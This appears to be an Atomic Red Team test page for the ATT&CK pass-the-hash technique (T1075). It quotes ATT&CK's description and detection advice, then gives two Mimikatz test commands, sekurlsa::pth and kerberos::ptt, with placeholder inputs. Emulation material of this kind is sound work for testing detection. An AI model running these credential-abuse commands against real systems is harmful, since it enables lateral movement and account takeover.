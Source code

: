 # T1075 - Pass the Hash
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1075)
<blockquote>Pass the hash (PtH) is a method of authenticating as a user without having access to the user's cleartext password. This method bypasses standard authentication steps that require a cleartext password, moving directly into the portion of the authentication that uses the password hash. In this technique, valid password hashes for the account being used are captured using a Credential Access technique. Captured hashes are used with PtH to authenticate as that user. Once authenticated, PtH may be used to perform actions on local or remote systems. 

Windows 7 and higher with KB2871997 require valid domain user credentials or RID 500 administrator hashes. (Citation: NSA Spotting)

Detection: Audit all logon and credential use events and review for discrepancies. Unusual remote logins that correlate with other suspicious activity (such as writing and executing binaries) may indicate malicious activity. NTLM LogonType 3 authentications that are not associated to a domain login and are not anonymous logins are suspicious.

Platforms: Windows

Data Sources: Authentication logs

System Requirements: Requires Microsoft Windows as target system

Contributors: Travis Smith, Tripwire</blockquote>

## Atomic Tests

- [Atomic Test #1 - Mimikatz Pass the Hash](#atomic-test-1---mimikatz-pass-the-hash)

- [Atomic Test #2 - Mimikatz Kerberos Ticket Attack](#atomic-test-2---mimikatz-kerberos-ticket-attack)


<br/>

## Atomic Test #1 - Mimikatz Pass the Hash
Note: must dump hashes first
[Reference](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa#pth)

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|
| ntlm | ntlm hash | string | cc36cf7a8514893efccd3324464tkg1a|

#### Run it with `command_prompt`!
```
mimikatz # sekurlsa::pth /user:#{user_name} /domain:#{domain} /ntlm:#{ntlm}
```
<br/>
<br/>

## Atomic Test #2 - Mimikatz Kerberos Ticket Attack
Similar to PTH, but attacking Kerberos

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | username | string | Administrator|
| domain | domain | string | atomic.local|

#### Run it with `command_prompt`!
```
mimikatz # kerberos::ptt #{user_name}@#{domain}
```
<br/>
